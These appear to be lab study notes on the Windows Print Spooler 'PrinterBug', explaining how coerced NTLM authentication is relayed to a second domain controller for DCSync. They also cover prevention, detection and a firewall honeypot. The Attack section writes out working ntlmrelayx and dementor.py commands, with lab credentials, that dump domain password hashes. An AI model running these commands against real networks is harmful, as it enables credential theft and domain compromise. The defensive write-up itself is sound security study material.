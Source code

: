 # Print Spooler & NTLM Relaying

* **Print Spooler** is an old service enabled by default on Windows systems (even latest versions).
* **PrinterBug** (found in 2018) abuses Print Spooler to force a remote machine to authenticate elsewhere, sending a TGT (ticket-granting ticket).
* Microsoft won't fix this—it's **"by design."**

If **Print Spooler is enabled** on a Domain Controller (DC), an attacker can:

1. **Relay** the connection to another DC and perform **DCSync** (dump user hashes).
2. **Connect to a machine with Unconstrained Delegation (UD)** – extract TGTs from memory (with Rubeus/Mimikatz).
3. **Abuse AD CS** – get a certificate for the DC, impersonate it.
4. **Abuse Resource-Based Kerberos Delegation** – authenticate as any admin.

***

## Attack

**Pre-condition:** SMB Signing must be **disabled** on the target DC.

**Step 1: Start NTLMRelayx to relay to the second Domain Controller.**

```
impacket-ntlmrelayx -t dcsync://<DC2_IP> -smb2support
```

<figure><img src="../../../.gitbook/assets/Pasted image 20250415100557.png" alt=""><figcaption></figcaption></figure>

**Step 2: Trigger the PrinterBug from a compromised user.**

```
python3 dementor.py <victim_DC_IP> <attacker_IP> -u <username> -d <domain> -p <password>
```

```
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```

<figure><img src="../../../.gitbook/assets/Pasted image 20250415100434.png" alt=""><figcaption></figcaption></figure>

**Step 3: Wait for NTLMRelayx to catch the connection and perform DCSync.**

**Result:** You receive user password hashes from the second DC.

***

## Prevention

* **Disable Print Spooler** on all non-printing servers (especially DCs).
* Or block remote calls via registry:
  * `RegisterSpoolerRemoteRpcEndPoint = 2` (disables remote access)

<figure><img src="../../../.gitbook/assets/Pasted image 20250415100425.png" alt=""><figcaption></figcaption></figure>

***

## Detection

No specific logs for this, but:

* Monitor **logons from core servers**
* Correlate with **unexpected IP addresses**
* Look for successful logons from **Kali machine IP**

<figure><img src="../../../.gitbook/assets/Pasted image 20250415100414.png" alt=""><figcaption></figcaption></figure>

***

## Honeypot

* Block outbound 139/445 from DCs using firewall.
* This prevents reverse connection but **alerts you** if the bug is triggered.
* ⚠️ Only for **mature environments**, since unknown bugs could bypass this.
